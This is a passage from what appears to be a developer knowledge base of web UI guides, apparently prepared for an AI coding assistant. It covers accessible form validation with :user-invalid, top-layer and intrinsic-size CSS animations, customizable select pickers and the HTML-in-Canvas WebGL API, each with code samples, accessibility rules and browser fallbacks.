  border-color: #d93025;
}
```

### 3. JavaScript
Since there is no "UserInvalidChanged" event, hook into standard form events to check the state.

```javascript
const updateAriaState = (event) => {
  const input = event.target;
  if (!input.matches?.('input, textarea, select')) return;

  // Check if the browser currently considers this input "user-invalid"
  const isUserInvalid = input.matches(':user-invalid');
  
  if (isUserInvalid) {
    input.setAttribute('aria-invalid', 'true');
  } else {
    input.removeAttribute('aria-invalid');
  }
};

// Listen on the document to handle dynamically added fields.
// 'blur' and 'focus' do not bubble, so we must use the capture phase (true).
document.addEventListener('blur', updateAriaState, true);
document.addEventListener('focus', updateAriaState, true);

// Also update on input if we've already shown the error, 
// so the error clears immediately when fixed.
document.addEventListener('input', (event) => {
  const input = event.target;
  if (!input.matches?.('input, textarea, select')) return;

  const hasAriaInvalid = input.hasAttribute('aria-invalid');
  const ariaInvalid = input.getAttribute('aria-invalid');
  if (hasAriaInvalid && ariaInvalid === 'true') {
    updateAriaState(event);
  }
});
```

## Fallbacking & Browser Support

The `:user-invalid` pseudo-class is widely supported (Baseline 2023), but older browsers need a fallback.

### Feature Detection
You can check for support in CSS and JavaScript.

**JavaScript Check:**
```javascript
if (!CSS.supports('selector(:user-invalid)')) {
  // Fallback logic here
}
```

### CSS for Fallback
To ensure your fallback logic is visually indistinguishable from the native behavior, you must apply your error styles to both the pseudo-class and your fallback class.

```css
/* Apply error styles to both native selector and fallback class */
input:user-invalid,
input.user-invalid-fallback {
  border-color: #d93025;
  background-color: #fce8e6;
}

/* Show error message for both cases */
input:user-invalid ~ .error-msg,
input.user-invalid-fallback ~ .error-msg {
  display: block;
}
```

### Fallback Logic
If `:user-invalid` is missing manually track the interaction state using a `WeakMap`.

```javascript
const UserInvalidFallback = (() => {
  const dirtyState = new WeakMap();

  const updateState = (input) => {
    const isValid = input.checkValidity();

    // Update both visual and ARIA state
    input.classList.toggle('user-invalid-fallback', !isValid);
    input.classList.toggle('user-valid-fallback', isValid);

    if (!isValid) {
      input.setAttribute('aria-invalid', 'true');
    } else {
      input.removeAttribute('aria-invalid');
    }
  };

  const handleEvent = (event) => {
    const input = event.target;

    if (event.type === 'reset' && input.matches?.('form')) {
      const controls = input.elements || [];
      for (const control of controls) {
        dirtyState.delete(control);
        control.classList.remove('user-invalid-fallback');
        control.classList.remove('user-valid-fallback');
        control.removeAttribute('aria-invalid');
      }
      return;
    }

    if (!input.matches?.('input, textarea, select')) return;

    if (event.type === 'input' || event.type === 'change') {
      const state = dirtyState.get(input) || { hasInteracted: false, hasBlurred: false };
      state.hasInteracted = true;
      dirtyState.set(input, state);
      if (state.hasBlurred) {
        updateState(input);
      }
    } else if (event.type === 'blur') {
      const state = dirtyState.get(input) || { hasInteracted: false, hasBlurred: false };
      state.hasBlurred = true;
      dirtyState.set(input, state);
      if (state.hasInteracted) {
        updateState(input);
      }
    }
  };

  const init = () => {
    if (CSS.supports('selector(:user-invalid)')) return;

    document.addEventListener('blur', handleEvent, true); // Capture phase required
    document.addEventListener('input', handleEvent, true);
    document.addEventListener('change', handleEvent, true);
    document.addEventListener('reset', handleEvent, true); // Capture resets
  };

  return { init };
})();

// Initialize globally
UserInvalidFallback.init();
```

## Other Considerations

1.  **`aria-live` vs. `aria-errormessage`**: 
    *   `aria-errormessage` connects the input to the text, but screen readers might not announce it immediately upon appearance (only when focusing the input).
    *   If you need *immediate* announcement when the error appears (e.g., on blur), consider adding `role="alert"` or `aria-live="polite"` to the error message container, but test thoroughly to avoid "double announcement" when the user focuses the field to fix it.

2.  **Internationalization**:
    *   Ensure the text content of your error message (`#email-error`) is translated. The logic remains the same.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, tdd]

### 📘 KNOWLEDGE: NEXUS_ANIMATE-TO-FROM-TOP-LAYER.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

Elements that render in the "top layer" (like `<dialog>`, elements with the `popover` attribute, or tooltips) have historically been difficult to animate because they toggle between `display: none` and a visible state. Modern CSS provides `@starting-style`, `transition-behavior: allow-discrete`, and the `overlay` property to enable smooth entry and exit transitions for these elements. Note that native CSS nesting is used in the examples below.

## Implementation

### 1. Enable Discrete Transitions

To animate the `display` property, you must set `transition-behavior: allow-discrete`. This allows the element to remain visible during its exit transition. If using transition shorthands, be sure to place the `transition-behavior: allow-discrete` afterwards to prevent the shorthand from negating it.

### 2. The `overlay` Property

When an element moves in or out of the top layer, it must transition the `overlay` property. This ensures the element stays in the top layer for the duration of the animation, preventing it from being clipped by other elements or the viewport prematurely.

### 3. Entry Animations with `@starting-style`

Use the `@starting-style` at-rule to define the styles an element should transition *from* when it is first rendered or its `display` changes from `none`.

### 4. Animating the Backdrop

The `::backdrop` pseudo-element can be animated similarly by applying transitions to its own properties.

## Example

```css
/* 1. Define the visible (open) state */
dialog[open],
[popover]:popover-open {
  opacity: 1;
  transform: scale(1);

  /* 2. Define the starting state for entry (must come after open state) */
  @starting-style {
    opacity: 0;
    transform: scale(0.9);
  }
}

/* 3. Define the base (closed/exit) state and transitions */
dialog,
[popover] {
  opacity: 0;
  transform: scale(0.9);

  /* MANDATORY: transition display and overlay for top-layer elements */
  transition-property: opacity, transform, display, overlay;
  transition-duration: 0.3s;
  transition-timing-function: ease-out;
  /* Applies to discrete properties like display and overlay */
  transition-behavior: allow-discrete; /* Note: be sure to write this after the shorthand */
}

/* 4. Animate the backdrop */
dialog::backdrop,
[popover]::backdrop {
  background-color: rgba(0, 0, 0, 0);
  /* The transition shorthand can also be used with allow-discrete */
  transition:
    display 0.3s allow-discrete,
    overlay 0.3s allow-discrete,
    background-color 0.3s ease-out;
}

dialog[open]::backdrop,
[popover]:popover-open::backdrop {
  background-color: rgba(0, 0, 0, 0.5);

  @starting-style {
    background-color: rgba(0, 0, 0, 0);
  }
}

/* 5. Respect user preference for reduced motion */
@media (prefers-reduced-motion: reduce) {
  dialog,
  [popover] {
    /* Disable movement and shorten duration for a simple fade */
    transform: none;
    transition-duration: 0.1s;
  }

  @starting-style {
    dialog[open],
    [popover]:popover-open {
      transform: none;
    }
  }
}
```

## Constraints & Accessibility

- **MANDATORY**: Include `overlay` in your `transition` list for any element moving into or out of the top layer.
- **MANDATORY**: Use `allow-discrete` for the `display` property transition.
- **MANDATORY**: Respect user preferences for reduced motion using `prefers-reduced-motion` by simplifying transitions (e.g., removing transforms and shortening duration).
- **DO**: Place the `@starting-style` block inside or after the "open" state selector to ensure proper cascading.
- **DO NOT**: Use `@starting-style` for exit animations; exit animations are defined by the transition to the base (closed) state.

## Fallback strategies

#### Top-layer animation features

Baseline status for @starting-style: Newly available. It's been Baseline since 2024-08-06.
Supported by: Chrome 117 (Sep 2023), Edge 117 (Sep 2023), Firefox 129 (Aug 2024), and Safari 17.5 (May 2024).
Baseline status for transition-behavior: Newly available. It's been Baseline since 2024-08-06.
Supported by: Chrome 117 (Sep 2023), Edge 117 (Sep 2023), Firefox 129 (Aug 2024), and Safari 17.4 (Mar 2024).
overlay has limited availability.
Supported by: Chrome 117 (Sep 2023) and Edge 117 (Sep 2023).
Unsupported in: Firefox and Safari.

For browsers that do not support these features, top-layer elements will appear and disappear instantly. To provide animations in older browsers, you must use JavaScript to coordinate classes and wait for `transitionend` events or use the Web Animations API.

```javascript
// Feature detection for top-layer animations
const supportsTopLayerAnimation =
  window.CSS &&
  CSS.supports('transition-behavior', 'allow-discrete') &&
  CSS.supports('overlay', 'auto');

if (!supportsTopLayerAnimation) {
  // Manual JS fallback for entry/exit animations:
  // 1. Add an `.is-opening` class for entry.
  // 2. On close, add an `.is-closing` class, wait for the `transitionend` event, then call .close() or hide the popover.
}
```

#### popover

Baseline status for Popover: Newly available. It's been Baseline since 2025-01-27.
Supported by: Chrome 116 (Aug 2023), Edge 116 (Aug 2023), Firefox 125 (Apr 2024), Safari 17 (Sep 2023), and Safari iOS 18.3 (Jan 2025).

If the browser does not support Popover, use the `@oddbird/popover-polyfill`:

```html
<script type="module">
  if (!HTMLElement.prototype.hasOwnProperty('popover')) {
    await import('https://unpkg.com/@oddbird/popover-polyfill');
  }
</script>
```

Alternatively, for legacy support without a polyfill, use `position: fixed` and manually calculate coordinates via JavaScript `getBoundingClientRect()`.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_ANIMATE-TO-INTRINSIC-SIZES.MD

# Animate to Intrinsic Sizes
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Animating elements to dynamic sizes like `block-size: auto` or `inline-size: max-content` has historically required JavaScript or fragile "max-height" hacks. The `interpolate-size` property and `calc-size()` function allow the browser to natively interpolate between fixed lengths and intrinsic sizing keywords.

## Implementation steps

1.  **Opt-in to keyword interpolation**: Apply `interpolate-size: allow-keywords` to a parent element (typically `:root`) to enable transitions for properties using intrinsic keywords.
2.  **Define the transition**: Set a `transition` for the sizing property (e.g., `block-size`, `inline-size`) on the target element.
3.  **Use intrinsic keywords**: Change the sizing property to a supported intrinsic keyword—`auto`, `min-content`, `max-content`, `fit-content`, or (for flex-basis) `content`—during an interaction (e.g., `:hover` or a state class).
4.  **Perform calculations (Optional)**: Use `calc-size()` if you need to perform math on an intrinsic size (e.g., `auto + 2rem`). `calc-size()` also supports the `any` keyword for basis-agnostic calculations.

## Example: Generic Expansion Pattern

You can apply this pattern to any container (like a "Show More" section or a navigation menu) to transition between a restricted height and the element's natural size.

```css
/* Opt-in globally for all children */
:root {
  /* MANDATORY: Transitions to intrinsic keywords are disabled by default for compatibility */
  interpolate-size: allow-keywords;
}

.expandable-container {
  /* 1. Define a fixed initial size (or 0) and hide overflow */
  block-size: 100px;
  overflow: hidden;
  
  /* 2. Transition the sizing property */
  transition: block-size 0.4s ease-out;
}

.expandable-container.is-expanded {
  /* 3. Smoothly animate to the intrinsic natural height */
  block-size: auto;
}
```

## Example: Calculated Intrinsic Inline-Size

```css
.badge {
  inline-size: 40px;
  overflow: hidden;
  white-space: nowrap;
  transition: inline-size 0.3s ease;
}

.badge:hover {
  /* calc-size(basis, calculation) */
  /* 'size' refers to the evaluated basis (max-content in this case) */
  inline-size: calc-size(max-content, size + 20px);
}
```

## Example: Transition from Intrinsic to Fixed

You can also animate in the opposite direction—starting from a natural size and collapsing to a specific length. This is useful for "dismissible" components.

```css
.collapsible-alert {
  /* 1. Start with the natural content height */
  block-size: auto;
  overflow: hidden;
  transition: block-size 0.5s ease-in-out, opacity 0.5s ease;
}

.collapsible-alert.is-dismissed {
  /* 2. Smoothly collapse to zero */
  block-size: 0;
  opacity: 0;
  pointer-events: none;
}

/* MANDATORY Copy-Paste Safety: Disable sizing animations for sensitive users */
@media (prefers-reduced-motion: reduce) {
  .expandable-container,
  .badge,
  .collapsible-alert {
    transition: none !important;
  }
}
```

```javascript
// MANDATORY Accessibility Synchronization: Ensure elements collapsed to zero dimensions are removed from the assistive technology tree, and sync aria-expanded states on triggers.
const alertElement = document.querySelector('.collapsible-alert');
alertElement.addEventListener('transitionend', (e) => {
  if (e.propertyName === 'block-size' && alertElement.classList.contains('is-dismissed')) {
    alertElement.hidden = true;
  }
});

// Example trigger syncer
const triggerBtn = document.querySelector('.accordion-trigger');
triggerBtn?.addEventListener('click', () => {
  const isExpanded = triggerBtn.getAttribute('aria-expanded') === 'true';
  triggerBtn.setAttribute('aria-expanded', !isExpanded);
});
```

## Key constraints

*   **Keyword-to-Keyword Restriction**: You cannot animate between two different keywords directly (e.g., from `min-content` to `max-content`). One end of the transition must be a fixed length or percentage (e.g., `0` to `auto`).
*   **Calc-size Syntax**: Inside `calc-size()`, you cannot mix different intrinsic keywords in the same expression. The first argument (the basis) defines what `size` represents.
*   **Opt-in Requirement**: Transitions to intrinsic keywords are disabled by default (`numeric-only`) to maintain backward compatibility. You must apply `interpolate-size: allow-keywords` to the element or an ancestor. `calc-size()` acts as a per-property override, automatically enabling interpolation whenever it is used.

## Fallback strategies

interpolate-size has limited availability.
Supported by: Chrome 129 (Sep 2024) and Edge 129 (Sep 2024).
Unsupported in: Firefox and Safari.
calc-size() has limited availability.
Supported by: Chrome 129 (Sep 2024) and Edge 129 (Sep 2024).
Unsupported in: Firefox and Safari.

`interpolate-size` and `calc-size()` are progressive enhancements. Browsers that do not support them will perform an instant jump to the target size.

*   **Graceful Degradation**: For simple `block-size: auto` transitions, standard browsers will simply toggle the size instantly, which is functional but less polished.
*   **Manual keyword fallbacks**: When using `calc-size()`, always provide a standard keyword fallback for older browsers, as they will discard the entire `calc-size()` declaration.

```css
.card {
  block-size: auto; /* Fallback for older browsers */
  block-size: calc-size(auto, size); /* Modern browsers use this */
  transition: block-size 0.3s ease;
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_ANIMATED-SELECT-PICKER.MD

# Animated Select Picker
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The customizable select API offers a declarative, CSS-driven way to animate `<select>` elements and their dropdown pickers. By combining `appearance: base-select` with modern CSS animation techniques—such as `@starting-style` and the `allow-discrete` transition behavior—you can create fluid, premium UI transitions for top-layer elements without relying on heavy JavaScript libraries.

Previously, animating native select dropdowns was impossible because their UI was rendered outside the accessible viewport constraints. With `appearance: base-select`, the picker becomes styleable and animatable like any other page element.

## How to Implement

To implement an animated select picker:

1. **Opt-in to customization:** Apply `appearance: base-select` to both the `<select>` element and the `::picker(select)` pseudo-element.
2. **Enable auto-sizing transitions (Optional):** Define `interpolate-size: allow-keywords` (usually on `:root`) to allow the browser to transition between discrete metric values like `height: auto` and `height: 0`.
3. **Animate the top-layer container:** Apply standard entry/exit styles to `::picker(select)`. To make sure the opacity transition works when moving between `display: none` and `display: block`, you must use `transition-behavior: allow-discrete` (often written inline as `transition: display 0.3s allow-discrete`).
4. **Hook into the opening state with `@starting-style`:** Use `@starting-style` to define the baseline styles the browser should compute *before* the transition begins. For example, if you want it to fade in, set the opacity to `0` inside the `@starting-style` block.
5. **Rotate the icon:** Use pseudo-element focus or active selectors like `:open::picker-icon` to apply transitions (such as rotation or translation) to the arrow indicator.

## Example Code: Smooth Select Scale and Fade

The following example demonstrates a custom select styled with standard page animations for the picker container.

```html
<!-- Always use a <label> linked via 'for' to the select for accessibility -->
<label for="theme-select">Visual Theme</label>
<select id="theme-select" class="animated-select" name="theme">
  <!-- The <button> inside <select> becomes the visible trigger when appearance: base-select is used -->
  <button>
    <!-- <selectedcontent> automatically displays the content of the chosen <option> -->
    <selectedcontent></selectedcontent>
  </button>
  <option value="system">
    <!-- MANDATORY: Decorative inline SVGs MUST set aria-hidden="true" to prevent redundant screen reader announcement -->
    <svg aria-hidden="true" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round">
      <rect x="2" y="3" width="20" height="14" rx="2" ry="2"></rect>
      <line x1="8" y1="21" x2="16" y2="21"></line>
      <line x1="12" y1="17" x2="12" y2="21"></line>
    </svg>
    System Default
  </option>
  <option value="light">
    <svg aria-hidden="true" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round">
      <circle cx="12" cy="12" r="5"></circle>
      <line x1="12" y1="1" x2="12" y2="3"></line>
      <line x1="12" y1="21" x2="12" y2="23"></line>
      <line x1="4.22" y1="4.22" x2="5.64" y2="5.64"></line>
      <line x1="18.36" y1="18.36" x2="19.78" y2="19.78"></line>
      <line x1="1" y1="12" x2="3" y2="12"></line>
      <line x1="21" y1="12" x2="23" y2="12"></line>
      <line x1="4.22" y1="19.78" x2="5.64" y2="18.36"></line>
      <line x1="18.36" y1="5.64" x2="19.78" y2="4.22"></line>
    </svg>
    Light UI
  </option>
</select>
```

```css
/* Opt-in to customizable select */
.animated-select,
.animated-select::picker(select) {
  appearance: base-select;
}

/* Enable auto-keyword transitions (usually set globally at :root) */
:root {
  interpolate-size: allow-keywords;
}

/* Style the visible trigger and icon rotation */
.animated-select {
  display: flex;
  align-items: center;
  justify-content: space-between;
  width: 100%;
  padding: 0.875rem 1rem;
  font-size: 1rem;
  border-radius: 8px;
  cursor: pointer;
  transition: border-color 0.2s ease;
}

.animated-select::picker-icon {
  transition: transform 0.3s cubic-bezier(0.16, 1, 0.3, 1);
}

.animated-select:open::picker-icon {
  transform: rotate(180deg);
}

/*
 * The Picker Container
 * Uses top-layer animations with `allow-discrete` visibility hooks
 */
.animated-select::picker(select) {
  background: white;
  border-radius: 12px;
  box-shadow: 0 10px 25px -3px rgba(0,0,0,0.1);
  padding: 0.5rem;
  margin-top: 0.25rem;
  width: anchor-size(width);
  overflow: hidden;

  /* The crucial transition setting for popover animations */
  transition:
    display 0.4s allow-discrete,
    overlay 0.4s allow-discrete,
    opacity 0.4s cubic-bezier(0.16, 1, 0.3, 1),
    height 0.4s cubic-bezier(0.16, 1, 0.3, 1);
  opacity: 0;
  height: 0;
}

/* Open State */
.animated-select:open::picker(select) {
  opacity: 1;
  height: auto;
}

/* @starting-style to hook the transition on initial popover open */
@starting-style {
  .animated-select:open::picker(select) {
    opacity: 0;
    height: 0;
  }
}

/* Support for SVG inside Options and Selected Content */
.animated-select option svg,
.animated-select selectedcontent svg {
  flex-shrink: 0; /* Prevent icons from shrinking */
  width: 1.25rem;
  height: 1.25rem;
}

/* MANDATORY: Provide multiple indicators (e.g. bold font and distinct background) for the checked state to avoid color-only state communication */
.animated-select option:checked {
  font-weight: 700;
  background-color: #f1f5f9;
}

/* Ensure copy-paste safety for users with motion sensitivities */
@media (prefers-reduced-motion: reduce) {
  .animated-select::picker(select),
  .animated-select::picker-icon {
    transition: none !important;
  }
}
```

## Strategic Implementation & Best Practices

- **DO** use `@starting-style` when you need animations to trigger exactly when an element transitions from `display: none` to visible.
- **DO NOT** use ad-hoc scroll locking. Top-layer elements managed by ‘base-select’ should allow natural backdrop dismiss behaviors.
- **DO** verify reduced motion preferences. Always wrap animation constraints in a `prefers-reduced-motion` media query to ensure accessible environments for those affected by motion sickness.
- **DO** test layout behavior. Setting `appearance: base-select` removes the default browser behavior of sizing the select based on its longest option width. You may need to set a fixed width or use flex/grid constraints to prevent layout shifts.
- **DO** ensure your `<select>` has a `name` attribute and an associated `<label>`. This ensures that even with a custom UI, the component remains accessible to screen readers and works correctly with standard form submissions.

## Fallback strategies

### Fallbacks & browser support for Customizable <select>

Customizable <select> has limited availability.
Supported by: Chrome 135 (Apr 2025) and Edge 135 (Apr 2025).
Unsupported in: Firefox and Safari.

For browsers that do not yet support `appearance: base-select`, the `<select>` element degrades gracefully to a standard operating system dropdown.

- **Non-Text Content Ignored**: Older browsers strip HTML tags (like `<svg>` or `<div>`) inside `<option>` tags and render only the text nodes. Ensure the text content of the `<option>` is readable and meaningful on its own.
- **HTML Structure Handling**: Standard parsers may ignore the `<button>` and `<selectedcontent>` tags inside `<select>` or treat them as invalid. No heavy JavaScript polyfills are strictly required for progressive enhancement if you view standard text as a readable fallback.


```javascript
document.addEventListener("DOMContentLoaded", () => {
  // Check if browser supports base-select value
  if (!CSS.supports("appearance", "base-select")) {
    // Custom select overrides are not supported natively.
  }
});
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_APPLY-WEBGL-SHADERS.MD

# Apply WebGL shaders to HTML content
> **VERSION**: v1 | **Last Updated**: 26/05/2026


WebGL shaders provide powerful GPU-accelerated visual effects, enabling advanced capabilities like dynamic ripple distortions, lighting models, color grading, and custom vertex transformations. The HTML-in-Canvas API allows developers to apply WebGL textures to HTML content. This enables applying high-performance fragment and vertex shaders natively to fully interactive UI components, such as buttons, input fields, and rich text, while retaining native accessibility, text selection, and DOM event handling.

## How to implement

1. Check if HTML-in-Canvas is supported in the browser:

```
if ('requestPaint' in HTMLCanvasElement.prototype) {
  // Use HTML in Canvas API
} else {
  // Use fallback strategy
}
```

2. Add the `layoutsubtree` attribute to the `<canvas>` HTML element.
3. Place your HTML content inside the `<canvas>` element with the `layoutsubtree` attribute.

```html
<canvas id="canvas" layoutsubtree>
  <div id="html-content"></div>
</canvas>
```

4. Scale your canvas grid to match the device scale factor to prevent blurriness:

```js
const observer = new ResizeObserver(([entry]) => {
  const dpc = entry.devicePixelContentBoxSize;
  canvas.width = dpc
    ? dpc[0].inlineSize
    : Math.round(entry.contentRect.width * window.devicePixelRatio);
  canvas.height = dpc
    ? dpc[0].blockSize
    : Math.round(entry.contentRect.height * window.devicePixelRatio);
});

const supportsDevicePixelContentBox =
  typeof ResizeObserverEntry !== "undefined" &&
  "devicePixelContentBoxSize" in ResizeObserverEntry.prototype;
const options = supportsDevicePixelContentBox
  ? { box: "device-pixel-content-box" }
  : {};
observer.observe(canvas, options);
```

5. Render the HTML content to the canvas inside a `canvas.onpaint` event handler using the `texElementImage2D` method:

```js
canvas.onpaint = () => {
  if (gl.texElementImage2D) {
    gl.texElementImage2D(
      gl.TEXTURE_2D,
      0,
      gl.RGBA,
      gl.RGBA,
      gl.UNSIGNED_BYTE,
      uiElement,
    );
  }
};
```

  When using a `requestAnimationFrame` loop to render the scene, call `canvas.requestPaint()` within the loop to ensure that the HTML content is rendered to the canvas. Make sure you only re-render the canvas if there has been an update to the descendant HTML elements:

  ```js
  function render() {
    // Request to update the canvas
    canvas.requestPaint();
    requestAnimationFrame(render);
  }
  requestAnimationFrame(render);

  canvas.onpaint = (event) => {
    if (event.changedElements && event.changedElements.length > 0) {
      // Update the texture with texElementImage2D, and update the CSS transform as shown in step 6
    }
  };
  ```

6. Update the CSS transform.

The browser needs to map from the 3D coordinate space into the CSS coordinate space using a viewport transform. To facilitate this, do the following:
  - Convert WebGL MVP Matrix to DOM Matrix.
  - Normalize the HTML element. HTML elements are sized in pixels (for example, 200px wide). WebGL, however, usually treats objects as "unit squares", for example, ranging from 0 to 1. If you don't normalize, your 200px button will look 200 times larger.
  - Map to the canvas viewport. This step is the "re-scaling" phase: it stretches that unit-space math back out to match the actual pixel dimensions of your `<canvas>` element on the screen. It also flips the Y-axis, because in WebGL, up is positive, but in CSS, down is positive.
  - Calculate the final transform. Multiply the matrices in order: Viewport * MVP * Normalization. Combining them into one final transform produces a "map" that tells the browser exactly where that HTML element layer should sit to align with the 3D drawing.
  - Apply the transform to the HTML element. This moves the HTML element layer to sit directly on top of its rendered pixels. This ensures that when a user clicks a button or selects text, they are actually hitting the real HTML element.

  ```js
  if (canvas.getElementTransform) {
    // 1. Convert WebGL MVP Matrix to DOM Matrix
    const mvpDOM = new DOMMatrix(Array.from(htmlElementMVP));

    // 2. Normalize the HTML element (Canvas Grid pixels -> WebGL Model Space)
    const dprX = canvas.width / canvas.clientWidth;
    const dprY = canvas.height / canvas.clientHeight;
    const gridWidth = targetHTMLElement.offsetWidth * dprX;
    const gridHeight = targetHTMLElement.offsetHeight * dprY;

    const toGLModel = new DOMMatrix()
      // Scale pixels to 1 unit, flip Y (as in CSS it points down, and in WebGL it points up)
      .scale(1 / gridWidth, -1 / gridHeight, 1 / gridHeight)
      // Center the origin: (0,0) becomes (-width/2, -height/2) before scaling
      .translate(-gridWidth / 2, -gridHeight / 2);

    // 3. Map to the canvas viewport
    const clipToCanvasViewport = new DOMMatrix()
      // Move center (0,0) to center of canvas
      .translate(canvas.width / 2, canvas.height / 2)
      // Scale normalized clip (-1..1) to viewport size
      .scale(canvas.width / 2, -canvas.height / 2, canvas.height / 2);

    // 4. Multiply: (Clip -> Pixels) * (MVP) * (pixels -> unit square)
    const screenSpaceTransform = clipToCanvasViewport
      .multiply(mvpDOM)
      .multiply(toGLModel);

    // 5. Apply to the transform
    const computedTransform = canvas.getElementTransform(
      targetHTMLElement,
      screenSpaceTransform,
    );
    targetHTMLElement.style.transform = computedTransform.toString();
  }
  ```

7. [Troubleshooting] If the developer is experiencing a mismatch in the DOM logical layout in 3D even after applying the CSS transform from step 5, check if the developer is experiencing the issue in Chromium 148 or earlier. If that's the case, check if `transform.is2D` is correctly set to false for a 3D DOMMatrix. If not, re-initialize the DOMMatrix which corrects `is2D` to be false before applying the transform to the target HTML element. This issue is fixed in Chromium 149+, and if the developer is experiencing it in newer Chromium versions, the is2D value is not the cause:

```js
if (transform.is2D) {
  // Workaround for Chromium bug https://crbug.com/512171941
  // affecting Chrome versions under 149 where `transform.is2D`
  // is incorrectly true for a 3D DOMMatrix. The assignment
  // below re-initializes the DOMMatrix which corrects is2D to be false.
  transform = DOMMatrix.fromFloat64Array(transform.toFloat64Array());
}
targetHTMLElement.style.transform = computedTransform.toString();
```

## Example code

```html
<canvas id="canvas" layoutsubtree style="width: 400px; height: 400px;">
  <div id="ui-element">
    <p>WebGL UI Element</p>
    <button>Action</button>
  </div>
</canvas>

<script>
  const canvas = document.getElementById("canvas");
  const gl = canvas.getContext("webgl");
  const uiElement = document.getElementById("ui-element");

  // Setup WebGL texture...
  const texture = gl.createTexture();
  gl.bindTexture(gl.TEXTURE_2D, texture);

  canvas.onpaint = () => {
    // 1. Update texture with HTML content
    if (gl.texElementImage2D) {
      gl.texElementImage2D(
        gl.TEXTURE_2D,
        0,
        gl.RGBA,
        gl.RGBA,
        gl.UNSIGNED_BYTE,
        uiElement,
      );
    }

    // ... Render your 3D scene here, calculating htmlElementMVP matrix ...

    // 2. Sync DOM position with 3D scene
    if (canvas.getElementTransform) {
      const mvpDOM = new DOMMatrix(Array.from(htmlElementMVP));

      // Recalculate the DPR compensation mapping
      const dprX = canvas.width / canvas.clientWidth;
      const dprY = canvas.height / canvas.clientHeight;
      const gridWidth = uiElement.offsetWidth * dprX;
      const gridHeight = uiElement.offsetHeight * dprY;

      const cssToUnitSpace = new DOMMatrix()
        .scale(1 / gridWidth, -1 / gridHeight, 1 / gridHeight)
        .translate(-gridWidth / 2, -gridHeight / 2);

      const clipToCanvasViewport = new DOMMatrix()
        .translate(canvas.width / 2, canvas.height / 2)
        .scale(canvas.width / 2, -canvas.height / 2, canvas.height / 2);

      const screenSpaceTransform = clipToCanvasViewport
        .multiply(mvpDOM)
        .multiply(cssToUnitSpace);

      const computedTransform = canvas.getElementTransform(
        uiElement,
        screenSpaceTransform,
      );
      uiElement.style.transform = computedTransform.toString();
    }
  };
</script>
```

## Best Practices

- **MANDATORY**: Check browser support for the HTML-in-Canvas API before using it.
- **MANDATORY**: Always add the `layoutsubtree` attribute to the `<canvas>` element.
- **MANDATORY**: Use an `onpaint` event handler to render the HTML content to the canvas.
- **MANDATORY**: Use the `texElementImage2D` method to render the HTML content to the canvas.
- **MANDATORY**: Update the CSS transform of the HTML element to match the transform of the rendered content by setting the `style.transform` property of the HTML element.
- **MANDATORY**: Use `ResizeObserver` to observe the screen size and update the canvas size to match device pixels.
- **DO NOT** embed cross-origin content in a canvas, as it is not supported.
- **DO NOT** initialize `ResizeObserver` within the `onpaint` event handler, as it may lead to memory leaks.

### Fallback strategies

HTML in canvas is not natively supported by any major browser yet.

The HTML-in-Canvas API is not currently supported in all modern browsers, thus a fallback strategy is typically required.

However, given the improved performance benefits of this API, HTML-in-Canvas should be used if the browser supports it.

The fallback strategy depends on the use case. For example, for an interactive HTML content in canvas, if HTML-in-Canvas is not supported, place the HTML content on top of the canvas using CSS.

### HTML-in-Canvas polyfill

Use the following polyfill script to mimic the HTML-in-Canvas API in browsers that do not support it.

1. Install or embed the library:

```
# Install
npm install three-html-render
```

```
# Embed
<script src="https://cdn.jsdelivr.net/npm/three-html-render/dist/polyfill.js"></script>
```

2. Run the `installHtmlInCanvasPolyfill()` method to translate HTML-in-Canvas.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance, api]

### 📘 KNOWLEDGE: NEXUS_ARCHITECTURE.MD

# System Architecture
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The Human-AI Nexus is built as a modular orchestration system.

## Architecture Diagram

